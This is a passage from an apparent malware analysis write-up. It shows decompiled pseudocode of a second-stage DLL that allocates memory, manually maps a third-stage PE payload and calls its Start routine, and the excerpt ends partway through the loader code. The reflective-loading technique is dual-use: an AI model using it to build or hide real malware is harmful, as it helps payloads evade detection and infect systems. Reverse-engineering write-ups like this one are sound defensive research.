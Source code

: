 Similar to Stage #1, Stage #2 allocates some memory to drop Stage #3 payload, initializes the
environment and performs the required relocations. Everything starts from `DllEntryPoint` at
`180002E74h`:
```c
__int64 __fastcall u_DllEntryPoint_main(HINSTANCE a1, __int64 a2, void *a3) {
  if ( !a2 && dword_18002E330 <= 0 ) return 0;

  if ( (a2 - 1) > 1 || (v7 = dllmain_raw(a1, a2, a3)) != 0 && (v7 = sub_180002C74(a1, a2_, a3)) != 0 ) {
    v8 = u_load_and_invoke_Start_from_stage_3();
    v7 = v8;
    if ( a2 == 1 && !v8 ) {
      u_load_and_invoke_Start_from_stage_3();
      sub_180002C74(a1, 0, a3);
      dllmain_raw(a1, 0i64, a3);
    }

    if ( !a2 || a2 == 3 ) {
      v7 = sub_180002C74(a1, a2_, a3);
      if ( v7 ) return dllmain_raw(a1, a2_, a3);
    }
  }
  return v7;
}
```

As its name suggests, `u_load_and_invoke_Start_from_stage_3` at `180001000h` (the very first
function in the DLL), loads Stage #3 and invokes `Start` routine:
```c
__int64 u_load_and_invoke_Start_from_stage_3() {
  char *stage_3_Start; // [rsp+38h] [rbp-10h]

  load_malware_wrapper(&unk_1800168F0, 0x17A00);
  stage_3_Start = sub_1800027D0(v0, &unk_1800168E0);
  (stage_3_Start)(v2, v1, v3, v4);
  return glo_ExitProcess(0);
}
```

The `load_malware_wrapper` at `180001FD0h` is a wrapper for `180002030h` that drops the new payload
and does all required initializations:
```c
void __fastcall sub_180002030(
    char* a1_stage_3, __int64 a2, void *a3_VirtualAlloc, void *a4_VirtualFree, int a5_LoadLibrary,
    int a6_GetProcAddress, int a7_FreeLibrary, int a8_0) {
  /* DECLS */

  v18 = 0i64;
  v15 = 0i64;
  if ( check_size(a2, 0x40ui64) ) {
    if ( *a1_stage_3 != 0x5A4D )                // starts with MZ ?
      goto LABEL_8;
    if ( !check_size(a2, *(a1_stage_3 + 15) + 264i64) ) { /* ERROR */ }
    
    v12 = &a1_stage_3[*(a1_stage_3 + 15)];
    if ( *v12 != 0x4550 || *(v12 + 2) != 34404 || (*(v12 + 14) & 1) != 0 ) { /* ERROR */ }

    v14 = &v12[*(v12 + 10) + 24];
    for ( i = 0; i < *(v12 + 3); ++i )
    {
      if ( *(v14 + 16) )
        v8 = (*(v14 + 16) + *(v14 + 12));
      else
        v8 = *(v12 + 14) + *(v14 + 12);
      if ( v8 > v18 )
```